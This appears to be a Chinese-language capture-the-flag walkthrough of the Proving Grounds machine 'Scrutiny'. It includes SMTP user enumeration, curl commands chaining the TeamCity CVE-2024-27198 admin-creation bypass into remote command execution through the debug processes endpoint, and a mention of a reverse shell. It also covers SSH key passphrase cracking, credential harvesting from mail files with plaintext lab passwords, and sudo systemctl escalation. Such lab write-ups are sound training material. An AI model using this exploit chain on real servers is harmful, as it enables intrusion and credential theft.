---

title: Proving Grounds Practice-Scrutiny
date: 2025-7-24 20:00:00
tags: 红队
categories: 红队打靶-Linux
---

# 信息收集

## nmap



# smtp

可以通过自动化工具来枚举用户

```
Metasploit: auxiliary/scanner/smtp/smtp_enum
```



# web




访问login页面会跳转到`teams.onlyrands.com`,将域名解析添加到`/etc/hosts`后就可以正常访问了

主域名为`onlyrands.com`子域名为`teams.onlyrands.com`



搜索存在的漏洞有很多，但是没有对应于2023.05.4这个版本存在的，都是一个版本范围内存在的漏洞，测试了好多测试到一个可以用的漏洞

[Stuub/RCity-CVE-2024-27198: CVE-2024-27198 & CVE-2024-27199 PoC - 远程代码执行，管理员账户创建，枚举用户，服务器信息](./https://github.com/Stuub/RCity-CVE-2024-27198?source=post_page-----01737dd96583---------------------------------------)

创建用户是成功的，可以用该用户登录到后台，但是命令执行的时候失败





这个报错就是没有启动调试模式，要开启debug模式要追溯到这篇wp

[HTB: Runner | 0xdf 黑客攻击东西 --- HTB: Runner | 0xdf hacks stuff](./https://0xdf.gitlab.io/2024/08/24/htb-runner.html?source=post_page-----01737dd96583---------------------------------------)

先用生成的账号拿到token



```
curl -X POST http://teams.onlyrands.com/app/rest/users/id:24/tokens/RPC2 -u RCity_Rules_619:0JaCmxDO
```



```
export TOKEN="eyJ0eXAiOiAiVENWMiJ9.WElPbTl6UTJ3Qkc5RlJ6aXJjeUJMRlZ4MFhZ.OTFiMDQ2Y2QtNzVkMy00NGQ5LTg4NjItYjc3NzFiYmZhOTI2"
```

打开bebug模式

```
curl -X POST 'http://teams.onlyrands.com/admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true' -H "Authorization: Bearer $TOKEN"
```

用这个来刷新服务器

```
curl 'http://teams.onlyrands.com/admin/admin.html?item=diagnostics&tab=dataDir&file=config/internal.properties' -H "Authorization: Bearer $TOKEN"
```

然后就可以成功命令执行了

```
curl -X POST 'http://teams.onlyrands.com/app/rest/debug/processes?exePath=id' -H "Authorization: Bearer $TOKEN"
```



可以使用之前的exp来执行命令，使用perl的反向shell可以成功反弹shell





当前用户的根目录下就有local.txt

# 提权

在projects这里还可以发现有提交一个id_rsa



使用私钥连接也需要密码



使用ssh2john可以快速破解，密码为cheer





在git用户目录下还可以看到有其他用户，我们现在得到了marcot用户的凭证



查看可读目录，发现/var/mail，下面是各个用户的邮件，每个人的邮件只有自己才可以读，我们读取marcot用户的





其中有一个密码，是来自matthewa用户的



```
IdealismEngineAshen476
```



打印`matthewa`用户根目录下的内容可以发现`Dach`的密码



```
RefriedScabbedWasting502
```

Dach就是用户`briand`



briand用户有systemctl的sudo权限，按照GTFOBins中的方法就可以提权





